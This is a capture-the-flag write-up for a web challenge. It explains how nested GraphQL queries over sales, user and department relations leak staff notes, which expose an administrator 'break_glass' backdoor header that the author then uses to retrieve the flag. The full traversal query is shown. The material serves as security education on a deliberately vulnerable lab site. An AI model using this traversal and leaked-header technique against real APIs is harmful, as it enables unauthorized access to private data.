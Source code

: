# Stolen recipe

Author: halvis v/mnemonic

Oh no! Our top-secret recipe for the groundbreaking Apollo Choco-Crunch has gone astray, stolen by the cunning Sweet Tooth Bandits! This was not just any recipe—it was our golden ticket, destined to redefine the candy landscape forever. In a digital heist, these confectionery marauders infiltrated us and got away with our culinary treasure. We have reason to believe our website was their gateway.

Can you figure out they got ahold of it?

https://stolen-recipe.chall.uiactf.no

# Writeup

On the network tab of the browser inspector there was a graphql query that was interesting.

![Alt text](image-1.png)

Guessing we have to navigate the GraphQL, luckily @morty had already been researching this and found a nice tool for it [ApolloGraphQL Sandbox Explorer](https://studio.apollographql.com/sandbox/explorer/). He also found a query to get me started.

```graphql
query salesNumbers { salesNumbers(id: 1)  {
    Amount
    id
    registeredBy {
      id
      notes
      name
      departments {
        users {
          notes
          name
        }
      }
    }
  }
}
```

From what I understand here we do get free access to `salesNumber` queries. And this one is linked to a `User` table? (I'm a mysql person so just.. ignore it if it's totally wrong) with the `registeredBy` field. This link gives the name and notes for this user. 

![Alt text](image-2.png)

It also gives us the department. From that department we can get the users in that department.

So we can see all users in that department and their notes and name: 

![Alt text](image-3.png)

So if we take a closer look at Charlie which seems to work in HR? We can then get his departments, expand them to get the users in both his departments and so on. Until we find the IT department and the `Administrator` user. 

So the path is: 

```
1. salesNumber 1 is registered by Bob
2. Bob works in Finance
3. Finance has a user called Charlie
4. Charlie works in HR also
5. HR has a user called Jackie
6. Jackie works in IT also
7. IT has a user called Administrator
```

The IT Department looks like this:

```json
{
    "name": "IT",
    "users": [
        {
            "notes": [
                "Head of IT",
                "Started in 2023"
            ],
            "name": "Jackie"
        },
        {
            "notes": [
                "We only have this one Administrator account, for security purposes. Password should never be shared.",
                "From Jackie: Remember our backdoor HEADER if things go south => 'break_glass: only_in_case_of_emergency'"
            ],
            "name": "Administrator"
        }
    ]
}
```

Adding that backdoor header to the request we could get everything.

![Alt text](image.png)

And in the recipes are the flag:

![Alt text](image-4.png)

The query I used was this:

```
{
  salesNumbers(id: 1) {
    registeredBy {
      departments {
        users {
          departments {
            users {
              departments {
                users {
                  
                  departments {
                    name
                    users {
                      name
                      notes
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```